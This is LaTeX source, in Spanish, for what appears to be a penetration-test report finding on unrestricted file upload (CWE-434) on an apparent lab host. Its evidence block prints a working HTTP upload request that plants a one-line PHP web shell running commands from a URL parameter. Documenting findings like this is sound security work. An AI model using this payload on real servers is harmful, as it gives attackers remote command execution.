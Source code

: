 \documentclass[a4paper]{article}
\newcommand{\maquinaID}{MAWB} %
\begin{document}
\subsection{Hallazgo VULN-\maquinaID-01: Carga de Archivos Sin Restricciones}

\begin{tcolorbox}[colback=white, colframe=riskCritical, title=\textbf{Hallazgo VULN-\maquinaID-01: Carga de Archivos Sin Restricciones}]
    \begin{tabularx}{\textwidth}{lX}

        \textbf{Severidad:} &
        \textcolor{riskCritical}{\textbf{CRITICA (9.8)}} \\
        
        \textbf{CWE:} & 
        CWE-434 (Unrestricted Upload of File with Dangerous Type) \\
        
        \textbf{MITRE ATT\&CK:} & 
        \textbf{T1190} (Exploit Public-Facing Application) \\
        
        \textbf{CVSS:} & 
        AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H \\
    
    \end{tabularx}
\end{tcolorbox}

\subsection*{Descripcion General}
La aplicacion web permite a usuarios no autenticados subir archivos al servidor a traves del endpoint . No existen controles adecuados para validar el tipo de contenido (MIME Type) ni la extension del archivo. Esto permite subir scripts maliciosos (webshells) que pueden ser ejecutados por el servidor web.

\subsection*{Evidencia}
A continuacion se muestra la peticion HTTP interceptada donde se sube el archivo  eludiendo validaciones del lado del cliente:

\begin{lstlisting}[language=bash, caption=Peticion HTTP Maliciosa para subir Web Shell]
POST /contact.php HTTP/1.1
Host: 10.10.11.245
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
\end{lstlisting}
\end{document}
